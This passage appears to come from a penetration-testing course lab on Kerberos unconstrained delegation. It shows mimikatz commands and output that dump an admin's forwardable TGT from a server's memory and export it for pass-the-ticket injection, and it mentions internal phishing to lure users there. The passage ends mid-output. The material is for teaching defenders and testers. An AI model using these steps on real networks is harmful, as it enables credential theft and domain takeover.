 We find TGTs and TGSs related to the _Offsec_ user along with the computer account, but no other domain users.

Typically, a machine would only be configured with unconstrained delegation because it hosts an application that requires it. An Nmap scan against this machine reveals a single running application: an IIS-hosted web site running on port 80.

Since this is a legitimate site, we can either wait for a user to connect or leverage an internal phishing attack to solicit visits. In our example, we'll simulate this by logging in to the Windows 10 client as the _admin_ domain user and browsing to http://appsrv01. Since the web application is configured with Windows authentication, the Kerberos protocol is used.

After the browser has loaded the web page (which in our example is just a default IIS splash screen), we'll switch back to appsrv01 and execute the sekurlsa::tickets command again.

```
...
Authentication Id : 0 ; 42304798 (00000000:0285851e)
Session           : Network from 0
User Name         : admin
Domain            : PROD
Logon Server      : (null)
Logon Time        : 4/13/2020 5:14:40 AM
SID               : S-1-5-21-3776646582-2086779273-4091361643-1105

         * Username : admin
         * Domain   : PROD.CORP1.COM
         * Password : (null)

        Group 0 - Ticket Granting Service

        Group 1 - Client Ticket ?

        Group 2 - Ticket Granting Ticket
         [00000000]
           Start/End/MaxRenew: 4/13/2020 5:14:40 AM ; 4/13/2020 3:11:20 PM ; 4/20/2020 5:11:20 AM
           Service Name (02) : krbtgt ; PROD.CORP1.COM ; @ PROD.CORP1.COM
           Target Name  (--) : @ PROD.CORP1.COM
           Client Name  (01) : admin ; @ PROD.CORP1.COM
           Flags 60a10000    : name_canonicalize ; pre_authent ; renewable ; forwarded ; forwardable ;
           Session Key       : 0x00000012 - aes256_hmac
             517cd6b29bac62711b184487d095507c5231b9d921fa7ae8c52a475edf721474
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 2        [...]
...
```

> Listing 19 - TGT for admin user is present

This time, we find a TGT for the _admin_ user and it is flagged as forwardable. We can use the /export flag with sekurlsa::tickets to dump it to disk and then inject the TGT contents from the output file into our process with the kerberos::ptt command.

```
mimikatz # sekurlsa::tickets /export

...

Group 2 - Ticket Granting Ticket
 [00000000]
   Start/End/MaxRenew: 4/13/2020 5:14:40 AM ; 4/13/2020 3:11:20 PM ; 4/20/2020 5:11:20 AM
   Service Name (02) : krbtgt ; PROD.CORP1.COM ; @ PROD.CORP1.COM
   Target Name  (--) : @ PROD.CORP1.COM
   Client Name  (01) : admin ; @ PROD.CORP1.COM
   Flags 60a10000    : name_canonicalize ; pre_authent ; renewable ; forwarded ; forwardable ;
   Session Key       : 0x00000012 - aes256_hmac
     517cd6b29bac62711b184487d095507c5231b9d921fa7ae8c52a475edf721474
```